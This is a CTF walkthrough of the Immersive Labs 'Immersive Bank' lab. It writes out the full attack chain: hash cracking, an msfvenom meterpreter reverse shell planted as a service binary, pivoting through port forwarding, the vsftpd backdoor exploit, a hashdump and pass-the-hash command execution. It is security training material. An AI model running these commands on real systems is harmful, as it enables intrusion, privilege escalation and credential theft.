 ```yaml
---
date: 2025-03-07
categories: [CTF, ImmersiveLabs]
title: "IML - Immersive Bank"
tags: ['ftp', 'hashdump', 'john the ripper', 'privilege escalation', 'rce', 'reverse shell', 'smb', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Immersive Bank - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Immersive Bank

**<u>Immersive Bank: Ep.1 – Open Source and Credentials</u>**

```bash
john hash /usr/share/wordlists/rockyou.txt --format=raw-sha256S

```

![image1](../resources/5a9da1d38d9441d98ec574c0ffb4167f.png)


![image2](../resources/ff8b07f220184b248f67c606e02f9cb2.png)

**<u>Immersive Bank: Ep. 2 – Gaining Access</u>**

```bash
xfreerdp /v:10.102.189.120:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```

![image3](../resources/cb678f99260b4d77a1dab3ca4c44216b.png)

**<u>Immersive Bank: Ep.3 – Privilege Escalation</u>**

```bash
xfreerdp /v:10.102.118.107:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```
Troubleshooting file in C:\IMLBankIT


![image4](../resources/88128aa965a04ed0ac96f26867735f29.png)


![image5](../resources/877f385f297546559a08df9e6e23d37d.png)

```bash
sc query spooler

```

![image6](../resources/ac759a27b55043848b971c7a027f940f.png)

- Create a reverse shell named spoolsv.exe:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.102.170.0 LPORT=4445 -f exe -o spoolsv.exe

```
- Set up listener:

```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.102.170.0; set lport 4445; exploit"

```
- Transfer the malicious exe and replace the original

- Start service:

```bash
sc start spooler

```

![image7](../resources/2932eb0ce39f4c62b97c6bff51ff6b1d.png)

- Migrate to a more stable process:

```bash
ps

migrate -N LogonUI.exe

```

![image8](../resources/7f9c57411e0e4f59b9f889983c4b05f2.png)


cat C:\Users\Administrator\Desktop\token.txt


**<u>Immersive Bank: Ep.4 – Pivoting</u>**

```bash
xfreerdp /v:10.102.146.57:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```

![image9](../resources/f08f524068394b3897f76128fb2a307a.png)

- Do above exploit first to get SYSTEM and migrate to a more stable process

- Ping the FTP server to see if we can talk to it

![image10](../resources/a989c28fb914484d9688ace7e54588da.png)

- Background current meterpreter session (bg):

![image11](../resources/afcfabd38ef1469f974786de9ca2124e.png)

- Now we need to add a route to the FTP server:

```bash
route add 10.102.36.63 255.255.255.255 1

```

![image12](../resources/52f0db74f48147e98ec6c4a5ea0746fc.png)

- Back to the session:

```bash
sessions 1

```
- Forward port 3000 on our localhost to port 21 on the FTP server:

```bash
portfwd add -l 3000 -p 21 -r 10.102.36.63

```

![image13](../resources/9c146bdd6c44465c8a4e427a3400a9d0.png)

- Open another terminal

Banner grab with nc or ftp:

```bash
nc 127.0.0.1 3000

```

![image14](../resources/d4298ca418c1452882729f07eed0aad7.png)


![image15](../resources/d7f7f68f0c37441085fbbe2a0edcfe70.png)

- Background current meterpreter session:

```bash
bg
```

- Search for vsftpd in msf and use the following payload:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set rhosts 10.102.36.63  #Because route was added
set rport 21

```

![image16](../resources/3b18d9c8b1d04027a0569275690c1a27.png)


![image17](../resources/c0fa403808ce4f60bbdf40d93421bbdc.png)

**\*\*Tip** - before going on to Ep.5 - Do a hashdump in meterpreter and save the manager hash

**<u>Immersive Bank: Ep.5 – Account Abuse</u>**
- If you didn't save the hash on Ep.4 - you need to do the whole priv esc part again and in meterpreter, do a hashdump:

![image18](../resources/77e33bc5545047ccafe4f89b8a61a53b.png)

manager:1002:aad3b435b51404eeaad3b435b51404ee:**66ece2b7200f29cbd0b799350c29244e**:::

- We can check the credentials with CME:

```bash
crackmapexec smb 10.102.154.232 -u manager -H 66ece2b7200f29cbd0b799350c29244e

```

![image19](../resources/a31d5f5b29d745d1a259b508479988a7.png)

- We can also execute commands through CME:

```bash
crackmapexec smb 10.102.154.232 -u manager -H 66ece2b7200f29cbd0b799350c29244e -x 'type C:\Users\manager\Desktop\token.txt'

```

![image20](../resources/b52cd74f9da74350835fa359aca1d24a.png)
